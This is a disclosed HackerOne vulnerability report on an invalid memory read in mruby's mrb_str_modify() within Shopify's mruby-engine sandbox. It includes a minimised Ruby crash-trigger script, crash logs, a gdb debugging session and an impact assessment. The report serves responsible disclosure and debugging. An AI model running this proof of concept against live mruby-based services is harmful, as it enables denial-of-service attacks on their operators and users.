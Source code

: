# SIGSEGV on mruby mrb_str_modify() (Invalid memory access)

## Report Details
- **Report ID**: 183231
- **URL**: https://hackerone.com/reports/183231
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-11-18T03:48:21.522Z
- **Disclosed**: 2016-12-17T02:30:01.984Z

## Reporter
- **Username**: jpenalbae
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
There is an invalid memory read on mruby when calling to `mrb_str_modify()` with a invalid `RString *` which causes a SIGSEGV and leads to denial of service.

## Sample

The following code triggers the bug (attached as mrb_str_modify.min.rb):
```ruby
def n
if $0
end
""if 00end
qqq=Proc.new{|*x|x.join}
qqq.("",<<000,"",
000
"")
qqq.("","#{<<000}",
000
"")
0[<<0000,
#{<<0000}
0000
0000
0]
```

## Crash
Here we can see the crash (full crash output attached)
```
$ bin/sandbox /tmp/mrb_str_modify.min.rb
bin/sandbox:21: [BUG] Segmentation fault at 0x00000000000001
ruby 2.3.1p112 (2016-04-26) [x86_64-linux-gnu]

-- Control frame information -----------------------------------------------
c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
c:0002 p:0201 s:0005 E:000518 EVAL   bin/sandbox:21 [FINISH]
c:0001 p:0000 s:0002 E:000730 (none) [FINISH]

-- Ruby level backtrace information ----------------------------------------
bin/sandbox:21:in `<main>'
bin/sandbox:21:in `sandbox_eval'

-- Machine register context ------------------------------------------------
 RIP: 0x00007f423c11d17b RBP: 0x00007f423ac954e0 RSP: 0x00007f423ac93a80
 RAX: 0x0000000000000002 RBX: 0x0000000000000001 RCX: 0x00007f423aca7b00
 RDX: 0x00007f423ac9cf80 RDI: 0x00007f423ac954e0 RSI: 0x0000000000000001
  R8: 0x00007f423ac953e0  R9: 0x00007f423acbc6a0 R10: 0x0000000000000330
 R11: 0x00007f423c11e670 R12: 0x00007f423ac954e0 R13: 0x00007f423ac9cf80
 R14: 0x00007f423ac954e0 R15: 0x000000000100c03e EFL: 0x0000000000010202

-- C level backtrace information -------------------------------------------
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f424042dea5]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f424042e0dc]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f4240308364]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f42403b9dbe]
/lib/x86_64-linux-gnu/libpthread.so.0 [0x7f424008ced0]
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_str_modify+0xb) [0x7f423c11d17b] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/string.c:659
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_str_concat+0x18) [0x7f423c11e688] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/string.c:758
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_vm_exec+0x2243) [0x7f423c12e7d3] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/vm.c:2219
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_vm_run+0x57) [0x7f423c132567] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/vm.c:766
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mruby_engine_monitored_eval+0x113) [0x7f423c106173] ../../../../ext/mruby_engine/eval_monitored.c:68
/lib/x86_64-linux-gnu/libpthread.so.0 [0x7f4240083464]
/lib/x86_64-linux-gnu/libc.so.6(__clone+0x6d) [0x7f423f3ff30d]
```


## Crash debug

```
(gdb) r
Starting program: /usr/bin/ruby /home/jaime/research/shopy/mruby-engine/bin/sandbox /tmp/mrb_str_modify.min.rb
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff7ff5700 (LWP 30942)]
[New Thread 0x7ffff2348700 (LWP 30993)]

Program received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff2348700 (LWP 30993)]
mrb_str_modify (mrb=mrb@entry=0x7ffff23494e0, s=s@entry=0x1) at /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/string.c:660
660       check_frozen(mrb, s);
(gdb) x/1i $rip
=> 0x7ffff37d117b <mrb_str_modify+11>:  mov    eax,DWORD PTR [rsi]
(gdb) i r rsi
rsi            0x1      1
(gdb) print (mrb_value)$rsi
$1 = {
  value = {
    p = 0x1,
    {
      i_flag = 1,
      i = 0
    },
    {
      sym_flag = 1,
      sym = 0
    },
    bp = 0x1,
    fp = 0x1,
    vp = 0x1
  },
  w = 1
}
(gdb) list *$rip
0x7ffff37d117b is in mrb_str_modify (/home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/string.c:504).
499     }
500
501     static void
502     check_frozen(mrb_state *mrb, struct RString *s)
503     {
504       if (RSTR_FROZEN_P(s)) {
505         mrb_raise(mrb, E_RUNTIME_ERROR, "can't modify frozen string");
506       }
507     }
508
(gdb)
```

Backtrace
```
(gdb) bt
#0  mrb_str_modify (mrb=mrb@entry=0x7ffff23494e0, s=s@entry=0x1) at /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/string.c:660
#1  0x00007ffff37d2688 in mrb_str_concat (mrb=mrb@entry=0x7ffff23494e0, self=..., other=...) at /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/string.c:758
#2  0x00007ffff37e27d3 in mrb_vm_exec (mrb=mrb@entry=0x7ffff23494e0, proc=<optimized out>, proc@entry=0x7ffff2351310, pc=<optimized out>) at /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/vm.c:2219
#3  0x00007ffff37e6567 in mrb_vm_run (mrb=0x7ffff23494e0, proc=0x7ffff2351310, self=..., stack_keep=stack_keep@entry=0) at /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/vm.c:766
#4  0x00007ffff37ba173 in mruby_engine_monitored_eval (data=0x7ffff23493e0) at ../../../../ext/mruby_engine/eval_monitored.c:68
#5  0x00007ffff7737464 in start_thread (arg=0x7ffff2348700) at pthread_create.c:333
#6  0x00007ffff6ab330d in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:109
```

The crash happens at `mruby-engine/ext/mruby_engine/mruby/src/string.c:504` which is built inline
```c
static void
check_frozen(mrb_state *mrb, struct RString *s)
{
  if (RSTR_FROZEN_P(s)) {   // <-- Bug happens here
    mrb_raise(mrb, E_RUNTIME_ERROR, "can't modify frozen string");
  }
}
```

Actually `mrb_str_concat()` performs a cast of the argument `mrb_value self` to a `RString *` pointer, this generates an invalid pointer which is passed to `mrb_str_modify()` and later on to `check_frozen()` which tries to read from it and produces the crash.

## Impact
Its impact seems to be DoS of the service running the sandbox service. I doubt this would be exploitable, but I have seen the memory address being read change in between samples. If an attacker would be able to control this value it could lead to a write-what-where type vulnerability. But I highly doubt this would be possible to control.

Samples generating different invalid addresses have been attached.
```
$ bin/sandbox /tmp/mrb_str_modify.rb 2>&1 | head -1
bin/sandbox:21: [BUG] Segmentation fault at 0x00000000000003
$ bin/sandbox /tmp/mrb_str_modify.min.rb 2>&1 | head -1
bin/sandbox:21: [BUG] Segmentation fault at 0x00000000000001
```

## Attachments
- mrb_str_modify.min.rb
- mrb_str_modify.rb
- mrb_str_modify.crash.log
